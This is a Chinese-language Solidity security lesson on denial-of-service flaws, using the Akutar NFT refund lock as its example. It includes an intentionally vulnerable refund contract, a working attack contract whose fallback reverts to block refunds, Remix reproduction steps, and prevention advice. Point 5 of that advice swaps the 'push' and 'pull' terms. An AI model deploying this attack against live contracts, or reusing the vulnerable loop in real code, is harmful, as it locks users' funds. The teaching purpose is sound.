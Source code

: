 # S04. 拒绝服务

这一讲，我们将介绍智能合约的拒绝服务（Denial of Service, DoS）漏洞，并介绍预防的方法。NFT 项目 Akutar 曾因为 DoS 漏洞损失 11,539 ETH，当时价值 3400 万美元。

## DoS

在 Web2 中，拒绝服务攻击（DoS）是指通过向服务器发送大量垃圾信息或干扰信息的方式，导致服务器无法向正常用户提供服务的现象。而在 Web3，它指的是利用漏洞使得智能合约无法正常提供服务。

在 2022 年 4 月，一个很火的 NFT 项目名为 Akutar，他们使用荷兰拍卖进行公开发行，筹集了 11,539.5 ETH，非常成功。之前持有他们社区 Pass 的参与者会得到 0.5 ETH 的退款，但是他们处理退款的时候，发现智能合约不能正常运行，全部资金被永远锁在了合约里。他们的智能合约有拒绝服务漏洞。

## 漏洞例子

下面我们学习一个简化了的 Akutar 合约，名字叫 `DoSGame`。这个合约逻辑很简单，游戏开始时，玩家们调用 `deposit()` 函数往合约里存款，合约会记录下所有玩家地址和相应的存款；当游戏结束时，`refund()`函数被调用，将 ETH 依次退款给所有玩家。

```js
// 有Dos漏洞的游戏，玩家们先存钱，游戏结束后，调用deposit退钱
contract DoSGame{
    bool public refundFinished;
    mapping(address => uint256) public balanceOf;
    address[] public players;

    // 所有玩家存ETH到合约里
    function deposit() external payable {
        require(!refundFinished, "Game Over");
        require(msg.value > 0, "Please donate ETH");
        // 记录存款
        balanceOf[msg.sender] = msg.value;
        // 记录玩家地址
        players.push(msg.sender);
    }

    // 游戏结束，退款开始，所有玩家将依次收到退款
    function refund() external {
        require(!refundFinished, "Game Over");
        uint256 pLength = players.length;
        // 通过循环给所有玩家退款
        for(uint256 i; i < pLength; i++){
            address player = players[i];
            uint256 refundETH = balanceOf[player];
            (bool success, ) = player.call{value: refundETH}("");
            require(success, "Refund Fail!");
            balanceOf[player] = 0;
        }
        refundFinished = true;
    }

    function balance() external view returns(uint256){
        return address(this).balance;
    }
}
```

这里的漏洞在于，`refund()` 函数中利用循环退款的时候，是使用的 `call` 函数，将激活目标地址的回调函数，如果目标地址为一个恶意合约，在回调函数中加入了恶意逻辑，退款将不能正常进行。

```
(bool success, ) = player.call{value: refundETH}("");
```



下面我们写个攻击合约， `attack()` 函数中将调用 `DoSGame` 合约的 `deposit()` 存款并参与游戏；`fallback()` 回调函数将回退所有向该合约发送`ETH`的交易，对`DoSGame` 合约中的 DoS 漏洞进行了攻击，所有退款将不能正常进行，资金被锁在合约中，就像 Akutar 合约中的一万多枚 ETH 一样。

```js

contract Attack {
    // 退款时进行DoS攻击
    fallback() external payable{
        revert("DoS Attack!");
    }

    // 参与DoS游戏并存款
    function attack(address gameAddr) external payable {
        DoSGame dos = DoSGame(gameAddr);
        dos.deposit{value: msg.value}();
    }
    receive() external payable {}
}
```

## `Remix` 复现

1. 部署 `DoSGame` 合约。 

   ![](./img/S09-1.png)

2. 调用 `DoSGame` 合约的 `deposit()`，进行存款并参与游戏。 

   ![](./img/S09-2.png)

3.  此时，如果游戏结束调用 `refund()` 退款的话是可以正常退款的。 
![](./img/S09-3.png)

4.  重新部署 `DoSGame` 合约，并部署 `Attack` 合约。 
![](./img/S09-4.png)

5. 调用 `Attack` 合约的 `attack()`，进行存款并参与游戏。 
![](./img/S09-5.png)

6.  调用 `DoSGame` 合约`refund()`，进行退款，发现不能正常运行，攻击成功。 
![](./img/S09-6.png)

## 预防方法

很多逻辑错误都可能导致智能合约拒绝服务，所以开发者在写智能合约时要万分谨慎。以下是一些需要特别注意的地方：

1. 外部合约的函数调用（例如 `call`）失败时不会使得重要功能卡死，比如将上面漏洞合约中的 `require(success, "Refund Fail!");` 去掉，退款在单个地址失败时仍能继续运行。
2. 合约不会出乎意料的自毁。
3. 合约不会进入无限循环。
4. `require` 和 `assert` 的参数设定正确。
5. 退款时，让用户从合约自行领取（push），而非批量发送给用户(pull)。
6. 确保回调函数不会影响正常合约运行。
7. 确保当合约的参与者（例如 `owner`）永远缺席时，合约的主要业务仍能顺利运行。

## 总结

这一讲，我们介绍了智能合约的拒绝服务漏洞，Akutar 项目因为该漏洞损失了一万多枚ETH。很多逻辑错误都能导致DoS，开发者写智能合约时要万分谨慎，比如退款要让用户自行领取，而非合约批量发送给用户。